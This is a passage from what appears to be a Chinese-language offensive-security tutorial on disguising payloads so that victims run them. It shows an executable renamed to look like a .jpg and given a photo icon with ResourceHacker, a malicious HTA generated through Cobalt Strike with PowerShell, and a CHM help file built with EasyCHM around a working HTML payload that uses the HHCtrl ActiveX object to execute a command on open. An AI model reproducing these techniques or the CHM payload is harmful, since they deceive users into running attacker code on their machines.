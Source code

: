  

ok，此时已经变成了 以 jpg 结尾的了。但是双击运行还是 exe 格式运行的。

[![slYoMq.png](https://s3.ax1x.com/2021/01/10/slYoMq.png)](https://imgchr.com/i/slYoMq)

再利用 `ResourceHacker` 修改图标。

找个小姐姐图片转换为 ico 格式。

```
http://www.bitbug.net/
```

[![slthTO.png](https://s3.ax1x.com/2021/01/10/slthTO.png)](https://imgchr.com/i/slthTO)

如图，双击实际上还是运行的cmd。

#### 3. HTA

HTA是HTML Application的缩写，直接将HTML保存成HTA的格式，是一个独立的应用软件，本身就是html应用程序，双击就能运行，却比普通网页权限大得多，它具有桌面程序的所有权限。

制作：利用 cs

 attacks——>packages——>HTML application

选择powershell 生成。

#### 4. CHM

CHM（Compiled Help Manual）即“已编译的帮助文件”。它是微软新一代的帮助文件格式，利用HTML作源文，把帮助内容以类似数据库的形式编译储存。

制作CHM需要用到一个工具 [EasyCHM](http://www.etextwizard.com/)

**CHM制作过程：**
 创建一个文件夹（名字随意），在文件夹里面再创建两个文件夹（名字随意）和一个index.html文件，在两个文件夹内部创建各创建一个index.html文件。

[![slauO1.md.png](https://s3.ax1x.com/2021/01/10/slauO1.md.png)](https://imgchr.com/i/slauO1)

将下列代码放入 `index.html`:

```html
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

打开EasyCHM工具

后点击新建然后导入自己创建的文件夹，点击确定后再点击编译，在弹出的对话框中点击生成CHM按钮，会你生成一个CHM文件。

[![sl0GfU.md.png](https://s3.ax1x.com/2021/01/10/sl0GfU.md.png)](https://imgchr.com/i/sl0GfU)
